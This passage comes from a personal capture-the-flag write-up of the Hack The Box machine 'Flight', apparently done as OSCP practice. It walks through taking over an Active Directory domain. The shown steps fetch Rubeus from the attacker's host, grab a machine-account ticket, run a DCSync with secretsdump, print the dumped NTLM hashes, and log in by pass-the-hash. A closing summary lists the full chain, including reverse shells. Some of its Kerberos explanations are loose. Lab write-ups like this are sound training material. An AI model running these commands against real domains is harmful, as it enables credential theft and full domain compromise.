- That ticket inherits **high privileges on the host**, including access to LSASS, which allows you to dump **Administrator hashes** anyway.
- This is why you **don’t need to impersonate Administrator directly** — MACHINE$ is enough to escalate or extract secrets.

---

💡 **Summary:**

> DefaultAppPool cannot directly impersonate Administrator because the Administrator token isn’t readily available. MACHINE$ works because its token always exists locally, and impersonating it allows you to act with very high privileges anyway.
> 

## Grabbing machine account’s ticket with Rubeus

Start locally a python server, then retrieve the file on the target host:

```bash
powershell -c wget 10.10.14.180:800/Rubeus.exe -outfile Rubeus.exe
```

run rubeus

```bash
.\Rubeus.exe tgtdeleg /nowrap
```

```bash
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: eAztthc+aOmkBoZUMiSKVWE2CqzSYvcKM/APadCdlZg=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIECq5ljBkW9O5BYWEDIS2OmwVeoGZbkfugbE8pBTvgbXsfYf/riYBd75znb0xTK1eweKz2CFVFe24AXZUjz6hYNsEHjSM6OxHdI04wIYfZvgcPVdL5xfgmZ11og6ULW9wLA9JiL1S4E5pWIl/CoEjc2TMFlO66KW+4JYqGv148W2KFWcvd+m/GJlwCPmohcX8m+KAWTwmI8Gw2rYZ3gAc7AXVWw6GC1h2ssGIlmg9z/5jP0XX4smSU9HIr7rhtcZDxOJ+y3+Yu8vl5HQHvZi6wV8K7RLi/s8rYXXkWJ4Pc5s1QAYIGKUAp6m4jQUQ1vQbRm7bASYY7R+W5WUqerJxmbtkF3xnTwW/s48gqeFKyRb6DDAnYX66TAXhN70xdPcTGAgaLrwK4FGXPR5xKRjIU20Lgp+Tl/oa8BCEccR+DzIKCAiSQSef13Y/wuTJQ1dC5BBiSXMShVE+2RVst6wp168IoIoWBx6OD8yKANzJOAFX9W1Ieuky3xK3fywFK4GTxSvSLPGFB8U8JHe6IhZmlWJeFWmryF0AiqVc7CkmjY63WG3R/uZz9JDE5KZ88cecfu2ODlOHHNM9WwD8UZc6YpYkxGKQOuEH89SqVbxACo3VfsgmasLqSsD6CaO/gxsK3umwbjlKTfCmfZ4ld78HtpNFKjhMI224lfqIJKK3Iv2pmCGfGOgEjxDN1hD6NAxUe7nhomiDmA0VBKdS8lsrM+kT7nbMUzvMaMNDuMdtjh+1K0f6vkJ+lApJsuHIZ/nW/e3MRTMbsfNx7PqVJilIsA39684m+RwltsZCZDWFn+6tsSXI9D5D3hcSh8EXqRRKJhD5Ia+1mC7v8ZIgFnJEIys5CNs59mapk7kXjY4nFJ2f0ofYZuk1YrV8x30Wb/6p+PnA0a1UV4UcRcAxUpXBptJCUkgMs07E5ybN7aAJ5FwR1lqvQpP7f2AhRgEHBnTrX7jMCtz2OMC1KYcPiGxudBL3JQZqo0FRAT7HGwlvwe+Q7M36sRIIOZX1HujXkUURlXZMO/yivEuD/5c3+f2X4zCQSy9My8sDWrZdK7TNt3QkXWDfOy+2/IXXpFRfcpccz7EH7dTMPIuZ1AzYRX07LjK4MJ/PTl4AnD37tN7iu6mF4Z4V0QBRNCK1cZ7e8I+/whgh+Ral83HHAB8h8W/sVGB4K9cW0Kl/3l2cRO7uJq/FUVSudRJr3jfp0srmDK9ujno0nRVueON/4R0/CQRQgTGP7U9Y6zVMgRT2FM24CtMuqiBBiL0YOQcQAOvD+/VOhbr3xChRQzQScp2Jte6/gWoqzfmsQlxvPe6yzMMlR6tGNIK4bOKPKc/e9PVLemQGZgIYBRX2+N/Nte+c4TZvp2uB+gqIyYohWoVvIo4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgZ+NhRRlTt9s9gM7xQtaF9eHGA5iwrVQK+UeMbarvoimhDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDI1MDgyNDAwMjUxN1qmERgPMjAyNTA4MjQxMDI1MTdapxEYDzIwMjUwODMxMDAyNTE3WqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
```

We obtained Silver Ticket for the `machine account`. 

What Rubeus did here?

- **Action:** `Request Fake Delegation TGT (current user)`
    - This means Rubeus is creating a **delegation ticket** for the current account.
    - A “fake delegation TGT” is essentially a **TGS-for-a-service with delegation rights**, not a full TGT for the domain.
- **Target SPN:** `cifs/g0.flight.htb`
    - It automatically tried to get a ticket for the **CIFS service** on the host `g0.flight.htb`.
- **Result:** `AP-REQ delegation ticket is now in GSS-API output`
    - An **AP-REQ** is a Kerberos request that uses a service ticket (TGS) to authenticate to a service.
    - The ticket you now have is a **service ticket for CIFS** (i.e., a **Silver Ticket** in practice).
- `Found the AP-REQ delegation ticket in the GSS-API output.`
    - This confirms you now have a **delegation-capable TGS** for the target service.
    - It’s **not a TGT**; it’s limited to the service you requested.

This is essentially a **Silver Ticket**. It allows you to authenticate to the target host’s service (CIFS) using the machine account’s privileges 

Silver Ticket recap

- A **Silver Ticket** is a **Kerberos service ticket (TGS) for a specific service on a host**, forged or obtained using the service account’s secret (here: machine account).
- Scope is limited to that service/host.
- You can use it to authenticate to the host/service **without going to the Domain Controller again**.

So our ticket:

- Is a **service ticket for `cifs/g0.flight.htb`**, signed with the machine account’s key.
- Works like a **Silver Ticket**, because it’s host/service-specific.

Here is a graphical representation of what Rubeus did:


mermaid:

```bash
sequenceDiagram
    participant AppPool as DefaultAppPool (compromised)
    participant Rubeus
    participant Machine as MACHINE$ (Machine Account)
    participant Target as Host Service (CIFS/g0.flight.htb)

    Note over AppPool: Rubeus is run under DefaultAppPool account

    %% AppPool uses MACHINE$ key to request a service ticket
    AppPool->>Rubeus: Run Rubeus to request TGS for CIFS/g0.flight.htb
    Rubeus->>Machine: Uses MACHINE$ key to build TGS request
    Machine-->>Rubeus: Provides AP-REQ delegation ticket (Silver Ticket)
    Rubeus->>AppPool: Returns Silver Ticket for use

    %% Target receives the service ticket
    AppPool->>Target: Presents Silver Ticket to authenticate as MACHINE$
    Target-->>AppPool: Grants access according to MACHINE$ privileges
```

What does access to this account mean? what can we do with this type of account?

### What are Machine accounts (`$` accounts)

- Every computer joined to an Active Directory domain has a machine account, e.g., `MACHINE$`.
- Machine accounts are **essentially treated as highly privileged on their own host**:
    - They can authenticate as the computer itself.
    - They usually have **local admin rights** on their own machine.
    - They are **trusted by the domain** for certain actions, including DCSync-like operations if the host is allowed.

We will procced to converting it from Base64 to Kirbi format

```bash
cat flight_ticket.b64 | base64 -d > ticket.kirbi
python kirbi2ccache.py ticket.kirbi ticket.ccache
```

```bash
INFO:root:Parsing kirbi file /home/ch3ckm8/my_data/flight_ticket.kirbi
INFO:root:Done!
```

it worked, next lets sync with the domain:

```bash
sudo ntpdate -u flight.htb
```

Then tell Kerberos to use the file `ticket.ccache` to store and read our authentication tickets instead of the default cache:

```bash
export KRB5CCNAME=ticket.ccache
```

Also modify etc/hosts like this to include the domain (g0) too: (secretsdump failed without it xd, i should have added it on the recon phase)

```bash
10.129.146.179 school.flight.htb flight.htb g0.flight.htb
```

## DCSync

next, i used secretsdump to perform the `DCSync`

```bash
secretsdump.py -k -no-pass g0.flight.htb
```

- `k` tells it to use **Kerberos authentication** instead of NTLM.
- `no-pass` means **you don’t provide a password**.
- So effectively, it uses the **Kerberos ticket** to authenticate to the target.

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6a2b6ce4d7121e112aeacbc6bd499a7f:::
S.Moon:1602:aad3b435b51404eeaad3b435b51404ee:f36b6972be65bc4eaa6983b5e9f1728f:::
```

Why did this work?

- used the machine account’s ticket (TGT/TGS) — not a regular user.
- The machine account was able to **authenticate to the target over SMB/RPC**.
- Because the target host (DC) trusts machine accounts, it allowed access to **LSASS**, and secretsdump could retrieve NTLM hashes of other users, including `Administrator`.

Key points:

- **Machine account tickets can be more powerful than regular user tickets**, because the account is essentially a trusted domain principal.
- Not every machine account can dump secrets everywhere — depends on **domain policies** and **target host**.
- The fact that you dumped the Administrator NTLM confirms that:
    1. The ticket was valid for the target service (TGS for CIFS/host).
    2. The machine account had sufficient privilege to read LSASS.

so we got administrators NTLM hash! lets login via winrm

## Logging in as Administrator via pass the hash

```bash
evil-winrm -i flight.htb -u administrator -H '43bbfc530bab76141b12c8446e30c17c'
```

grabbed root flag: `be6ba64f9dd6f54a69284c332c492694`

proof:


---

# Summary


Here is the list of the steps simplified, per phase, for future reference and for quick reading: 

#### Reconnaissance
1. nmap `scan` -> chose `SMB` `RPC` `LDAP` and `HTTP` to focus on first
2. **Enumerated** `SMB` -> nothing valuable found
3. **Enumerated** `RPC` -> nothing valuable found
4. **Enumerated** `LDAP` -> nothing valuable found
5. **Enumerated** `HTTP`, first **directories**, then **subdomains**, and then ==virtual hosts== -> found vhosts
6. **Inspected** the webapp, and **gathered information**
7. According to the information gathered, it was found to be **vulnerable** `RFI`
8. **Exploiting** `RFI` leaked the NTLM hash of a user (svc_apache)
9. **Cracked** the NTLM hash, got password for user (svc_apache)
10. **Correlated** the found creds with SMB, LDAP, RPC services
11. **Enumerated** `SMB` as this user (svc_apache), found valid users
12. **Enumerated** `LDAP` as this user (svc_apache) but nothing interesting was found
#### Foothold
1. `Password spraying` via `SMB` was performed, found **valid creds** for another user (S.Moon)
2. **Correlated** the found creds with SMB, LDAP, RPC services
3. **Enumerated** `SMB` as this user (S.Moon), found **WRITE permissions** to a share
4. Found **exploit** and by uploading it to the share leaked the ==NTLM hash== of another user (C.Bum) 
5. **Cracked** the ==NTLM hash==, got password for user (C.Bum) 
6. **Correlated** the found creds with SMB, LDAP, RPC services
7. **Enumerated** `SMB` as this user (C.Bum), found **WRITE permissions** to a share, the exact same share that the vhost page's content was stored
8. Found **exploit** and by **uploading** it to the share, and **triggering** it by navigating it to the webpage, we got ==rev shell== as a user (svc_apache)
9. Impersonated user C.Bum as svc_apache, via running a new process as another user (RunAs, since we know the creds of C.Bum, and created a new cmd process run as C.Bum to send a rev shell back to our machine
10. Got rev shell back to our machine, as user C.Bum
11. got ==user flag==
#### Privesc
1. **Enumerated** files and directories , and found the existence of ==IIS server==
2. **Uploaded** ==winPEAS== to find privesc paths, focused on the ==listening ports==
3. **Correlated** ==listening ports== with the IIS server, found the corresponding **port**
4. **Port forwarded** the port to attacker host, then inspected the webpage
5. **Enumerated** the files of the IIS server, and found that user C.Bum has `WRITE` permissions there
6. **Uploaded** an aspx ==rev shell==, and got shell as ==iis apppool\defaultapppool==
7. **Privileges** of this user revealed the existence of `SeImpersonate` Privilege, which in this case (iis apppool user) can impersonate the machine account
8. **Grabbed** machine account's ==ticket==
9. **Used** the ==ticket== to authenticate and perform ==DCSync==, which reavealed the `NTLM` hash of **Administrator**
10. **Logged** in as **Administrator** via pass the hash and grabbed the ==root flag==

---

# Sidenotes

One of the best, most enjoyable and most important machines i have done so far. This was my first contact with virtual hosts, and also featured a multitude of different methods along with the exploitation of the both webapps. Privesc also almost had everything from port forwarding to user impersonation and DCSync. 

What i also will remember from this one, is the enumeration for `virtual hosts`, and also that one user can `impersonate another user via running a new process` as the other user, if he knows the creds for the other user. 

To sum up, this machine almost had everything, and i will definetely revisit it often throughout my OSCP journey.


